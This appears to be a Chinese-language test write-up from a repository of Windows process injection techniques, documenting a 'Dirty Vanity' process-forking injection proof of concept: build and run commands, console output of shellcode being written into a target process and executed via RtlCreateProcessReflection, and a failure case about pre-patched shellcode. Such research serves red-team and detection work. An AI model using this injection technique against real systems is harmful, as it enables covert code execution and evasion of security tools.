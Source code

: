 **命令**:
```bash
cd techniques/28-process-forking
./build.sh

# 启动目标进程
cmd.exe /c "start /min cmd.exe"
# 获取PID（示例：47340）

# 测试注入（使用内置shellcode）
./build/process_forking.exe 47340
```

**输出**:
```
[+] Process Forking Injection POC (Dirty Vanity)
[+] Windows Fork API Abuse - RtlCreateProcessReflection

[+] Using built-in position-independent shellcode
[+] Shellcode: cmd /k msg * Hello from Dirty Vanity
[+] Shellcode size: 3249 bytes


[+] Process Forking Injection (Dirty Vanity)
[+] Target PID: 47340
[+] Shellcode size: 3249 bytes
[+] Opened target process
[+] Allocated remote memory at 0000027F5F7A0000
[+] Wrote shellcode to remote process
[+] Resolved RtlCreateProcessReflection at 00007FFB404949F0
[+] Successfully forked process!
[+] Forked process PID: 121088
[+] Forked process handle: 00000000000000BC
[+] Forked thread handle: 00000000000000C0

[+] Process forking injection successful!
```

**结果**: ✅ **成功**

**验证**:
1. ✅ `RtlCreateProcessReflection` 返回 `STATUS_SUCCESS`
2. ✅ Fork进程PID 121088被创建
3. ✅ 程序正常退出（没有挂起）
4. ✅ Fork进程执行shellcode后正常退出

### 测试 2: 对比预Patch Shellcode（失败案例）

**场景**: 使用 `generate_shellcode.exe` 生成的预patch shellcode

**问题**:
```c
// generate_shellcode.exe 的做法
FARPROC pWinExec = GetProcAddress(hKernel32, "WinExec");      // Injector进程的地址
memcpy(shellcode + 0x13, &pWinExec, 8);                       // Patch到shellcode

// Fork进程执行时
call [0x00007FFB123456]  // ❌ 这个地址在fork进程中可能无效或指向错误位置
```
